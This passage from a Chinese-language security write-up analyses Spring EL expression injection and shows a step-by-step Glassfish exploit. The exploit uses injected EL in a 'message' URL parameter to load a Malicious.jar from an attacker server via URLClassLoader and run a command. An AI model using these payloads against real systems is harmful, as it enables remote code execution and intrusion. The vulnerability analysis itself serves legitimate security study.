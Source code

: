 了解了 Spring 标签属性执行 EL 表达式的大体流程：首先通过标签类处理相关内容，将需要执行 EL 表达式的标签属性传入到 evaluateString 或者其他方法，但最终都将流入到 doEvaluate 方法中，经过一些处理将截取的属性值最为传入到 evaluateExpression 方法，最后 evaluateExpression 方法再将传入的属性值作为表达式交给平台去执行。

以上这些其实仅仅是对 EL 表达式注入问题分析的开始，因为真正实现执行的地方是平台，也就是说，不同的平台 EL 表达式的操作和执行也是不同的。因此，我分别针对 Glassfish 和 Resin 平台进行了测试，目前比较流行的 Tomcat 平台也进行了测试，但是由于它和 Spring 框架在 EL 表达式的实现上存在一些分歧，导致 Tomcat 平台下 EL 表达式不可以调用方法。

下面我们分别来看看 Glassfish 和 Resin 平台下，不同的利用方法。
先来看 Glassfish 下的利用，首先在我们另一台服务器上放置编译如下代码的 jar 文件：

```
public class Malicious { public Malicious() { try { java.lang.Runtime.getRuntime().exec("calc.exe"); //Win } catch (Exception e) { } } } 
```

然后我们通过 EL 表达式创建一个数组（URLClassLoader 的构造函数需要 URL 数组作为参数），存放在 session 中，url 为

```
http://target/file? message=${pageContext.request.getSession().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}。 
```

下一步我们通过 URI 提供的 create 方法，可以创建一个 URL 实例，我们把这个实例保存在刚刚创建的数组中，url 为

```
http://target/file?message= ${pageContext.request.getSession().getAttribute("arr").add(pageContext.getServletContext().getResource("/").toURI().create("http://serverip/Malicious.jar").toURL())}。 
```

Malicious.jar 文件就是我们之前保存在另一台服务器中的 jar 文件。EL 表达式中的 PageContext 类中 getClassLoader 方法得到的对象的父类便是 URLClassLoader，所以，我们便可以调用 newInstance 方法了，url 为

```
http://target/file?message= ${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}。 
```

效果如下图所示：

![此处输入图片的描述](img/img2_u138_png.jpg)
